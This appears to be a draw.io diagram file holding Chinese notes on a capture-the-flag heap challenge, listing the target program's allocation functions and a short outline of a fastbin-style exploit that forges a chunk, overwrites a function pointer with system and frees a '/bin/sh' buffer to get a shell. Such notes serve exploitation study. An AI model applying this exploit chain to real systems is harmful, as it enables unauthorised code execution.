 <mxfile version="24.2.1" type="github">
  <diagram name="第 1 页" id="erWBEHMT_IxAKbOyUFVJ">
    <mxGraphModel dx="1859" dy="494" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-1" value="一共有5个方法：&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;func1 malloc(0x60)&lt;/div&gt;&lt;div&gt;func2 read&amp;nbsp; 0x40&lt;/div&gt;&lt;div&gt;func3 print&lt;/div&gt;&lt;div&gt;func4 free&lt;/div&gt;&lt;div&gt;func5 malloc 0x60&lt;/div&gt;&lt;div&gt;read 0x60&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="30" y="10" width="240" height="160" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-2" value="&lt;div&gt;攻击思路：&lt;/div&gt;add()&lt;div&gt;free()&lt;/div&gt;&lt;div&gt;edit(p64(0x60207d))&amp;nbsp;&lt;br&gt;&lt;/div&gt;&lt;div&gt;add()&lt;/div&gt;&lt;div&gt;func5&amp;nbsp;b&#39;aaa&#39;+p64(0)*3+p64(0x602018-8)+p64(0)*4 &amp;nbsp;&lt;/div&gt;&lt;div&gt;show&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;edit(b&#39;/bin/sh\x00&#39;+p64(system_addr))&lt;br&gt;&lt;/div&gt;&lt;div&gt;free&lt;/div&gt;" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="310" y="170" width="280" height="170" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-3" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;add()&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="827" y="160" width="60" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-5" value=" bss p=0x6020A8" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-140" y="40" width="100" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-6">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="970" y="245" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-6" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="860" y="230" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-9" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="170" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-10" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="200" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-11" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="230" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-12" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="260" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-13" target="IB8mfc5W1hkk9r3mwRGL-14">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-13" value="bin" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1380" y="30" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-14" value="ps" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="120" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-18" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-19">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1375" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-19" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1265" y="155" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-20" value="s" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="140" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-21" value="fd" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="160" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-22" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="180" width="70" height="20" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
